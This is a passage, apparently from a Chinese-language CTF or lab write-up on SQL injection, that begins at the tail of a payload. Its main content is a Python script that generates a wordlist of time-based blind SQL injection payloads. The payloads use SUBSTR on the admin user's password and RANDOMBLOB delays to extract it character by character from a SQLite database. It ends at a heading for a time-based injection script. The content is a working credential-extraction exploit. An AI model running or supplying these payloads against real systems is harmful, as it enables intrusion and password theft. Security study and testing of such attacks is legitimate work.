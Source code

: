                      		0 
                         end
                 )
         )-- ')
         ```
     
       * 生成字典
     
         ```python
         import time
         import os
         import urllib.parse
         
         
         if __name__ == '__main__':
             filename = './Output/{}.txt'.format(time.strftime('%Y-%m-%d %H-%M-%S', time.localtime(time.time())))
             passNumbers, = map(int, input("请输入密码位数：").split())
             codeArray = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f']
             template = "'+(\
                         CASE \
                             WHEN \
                                 SUBSTR((SELECT password FROM users WHERE username='admin'),{},1)='{}' \
                             THEN RANDOMBLOB(150000000) \
                             ELSE 'false~' \
                         END\
                                 )\
                         )-- "
         
             # template = "{}________{}"
         
             with open(filename, 'a') as file_object:
                 print("开始输出")
                 for pass_serial in range(passNumbers):
                     for code in codeArray:
                         password = template.format(pass_serial+1, code)
                         file_object.write('{}\n'.format(password))
                 # for user_serial in range(passNumbers):
                 #     for code in codeArray:
                 #         password = template.format(user_serial+1, code)
                 #         file_object.write('{}\n'.format(password))
             print("已输出到{}{}".format(os.path.abspath('.'), filename))
         
         ```
     
       * 基于时间的盲注脚本
     